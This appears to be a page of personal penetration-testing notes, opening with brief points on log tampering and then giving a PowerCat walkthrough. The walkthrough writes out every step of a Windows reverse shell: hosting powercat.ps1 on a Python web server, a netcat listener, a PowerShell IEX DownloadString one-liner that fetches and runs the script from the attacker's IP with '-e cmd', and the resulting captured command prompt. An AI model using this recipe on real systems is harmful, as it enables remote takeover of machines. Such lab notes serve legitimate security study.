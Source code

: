 **Educational Notes:**

- Log analysis is a critical part of incident response
- System administrators should protect logs from tampering
- Centralized and secure log management helps preserve evidence
- Unexpected gaps in logs can indicate anti-forensic activity

---

# PowerCat

### PowerShell Reverse Shell with Powercat

This example demonstrates how to establish a reverse shell connection using PowerShell and Powercat.

```bash
# On Kali Linux:
# 1. Clone the repository
┌──(kali㉿kali)-[~/Desktop]
└─$ git clone https://github.com/besimorhino/powercat.git

cd powercat

# 2. Start a Python HTTP server to host the script
┌──(kali㉿kali)-[~/Desktop/powercat]
└─$ sudo python -m http.server 8000

# 3. Start a Netcat listener to receive the connection
┌──(kali㉿kali)-[~/Desktop/]
└─$ sudo apt-get install netcat
┌──(kali㉿kali)-[~/Desktop/]
└─$ nc -lp 4444

# On Windows:
# 1. Create a PowerShell script named back.ps1 with the following content:
powershell -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.74.171:8000/powercat.ps1'); powerrcat -c 192.168.74.171 -p 4444 -e cmd"

# 2. Execute the script
# This will establish a reverse shell connection to the Kali machine

# On Kali Linux:
# You should now have a command prompt from the Windows machine
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -lp 4444
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.
C:\Users\IEUser\Desktop>
```

![[Pasted image 20250429101318.png]]

---